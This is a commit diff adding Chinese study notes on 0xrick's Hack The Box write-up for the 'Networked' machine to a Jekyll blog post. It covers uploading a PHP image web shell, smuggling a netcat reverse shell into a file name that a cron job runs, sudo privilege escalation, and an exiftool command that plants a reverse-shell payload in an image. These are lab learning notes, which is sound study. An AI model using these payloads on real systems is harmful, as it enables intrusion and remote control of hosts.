

Before and after one commit to SewellDinG/sewellding.github.io, a Jekyll site: the page built from _posts/2020-02-06-《0xrick's Write-ups for hack-the-box》学习备忘录.md, in a window 1280 px wide and 1400 px high, scrolled down 6000 px. Shown: the whole window, without its empty margins (207-1073 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6118 px from its top, so only the background shows below that.

Commit message:
Add 0xrick's Write-ups for hack-the-box(#9)

````diff
--- a/_posts/2020-02-06-《0xrick's Write-ups for hack-the-box》学习备忘录.md
+++ b/_posts/2020-02-06-《0xrick's Write-ups for hack-the-box》学习备忘录.md
@@ -190,3 +190,51 @@ Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categorie
 - John：默认自带一些服务秘钥转HASH的脚本，kali的在/usr/share/john目录下。
 - SSH代理：也可以利用SSH设置代理，`ssh -D 1080 -fN -i bobby.key.enc bobby@chainsaw.htb`
 - 这是一个关于智能合约的漏洞环境，从智能合约的定义、编写、编译、部署到交互，可以拓展学习不少有趣的东西。
+
+### 九、Networked
+
+环境概述：Linux、Easy、20'、24 Aug 2019
+
+渗透流程：Nmap -> Web Enumeration -> RCE –> Shell as apache -> Command Injection in check_attack.php –> Shell as guly –> User Flag -> Command Injection in the Network Script Name –> Root Shell –> Root Flag
+
+知识点：
+
+- 信息泄露：使用gobuster枚举目录，发现备份文件。
+
+- tar：解压缩`tar zxvf backup.tar `，压缩`tar zcvf test.tar file1 file2`。
+
+- GetShell：制作图片马，重命名为test.php.png，上传并触发RCE，获取apache shell。
+
+- GetShell：guly用户家目录存在定时任务，每三分钟执行某PHP文件，内含RCE code，`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`，$value参数可控且为指定目录下的文件名，使用touch可新建名为`'; nc 10.10.xx.xx 1338 -c bash'`文件，将代码注入并执行，触发RCE，获取guly shell。
+
+- Linux提权：使用`sudo -l`查看当前用户可以使用sudo的范围情况，如下显示guly可以以root权限调用changename.sh，`sudo ./usr/local/sbin/changename.sh`；此文件是设置网络配置的脚本，参考[exp](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)从而提权。
+
+  ```
+  User guly may run the following commands on networked:
+      (root) NOPASSWD: /usr/local/sbin/changename.sh
+  ```
+
+思考：
+
+- 代码审计：作者并没有解释为何上传特殊文件导致RCE的。这里是由于lib.php文件的getnameUpload()函数使用了implode()获取文件后缀，导致可以上传`.php.png`后缀的文件，使用`php -a`获得交互来测试，如下；RCE是PHP和Apache配置错误引发的问题，将`.php*`的文件按php执行，参考[paper](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。
+
+  ```
+  php > $filename="image.php.png";
+  php > $pieces = explode('.',$filename); print_r($pieces);
+  Array
+  (
+      [0] => image
+      [1] => php
+      [2] => png
+  )
+  php > $name= array_shift($pieces); echo $name;
+  image
+  php > $name = str_replace('_','.',$name); echo $name;
+  image
+  php > $ext = implode('.',$pieces); echo $ext;
+  php.png
+  ```
+
+- 图片马：制作图片马，文中直接使用的`echo >>`追加，同样原理Windows下使用`copy`来追加，或使用010editor等二进制编辑器来追加，但这些都可能涉及图片完整性问题；可以使用exiftool，`exiftool -Comment='<?php system("nc 10.10.14.4 1337 -e /bin/bash"); ?>' test.php.png`，保持图片完整性。
+- 定时任务：家目录下的crontab.guly默认不能触发定时器，定时器服务名为`crond`，日志在`/var/log/cron`。
+- Linux网卡设置：如果直接修改网络配置文件，即ifcfg-ethx等文件话，必须通过ifup/ifdown来启动/关闭；CentOS系网络配置文件所在目录`/etc/sysconfig/network-scripts/`，Ubuntu系`/etc/network/interfaces/`。
````
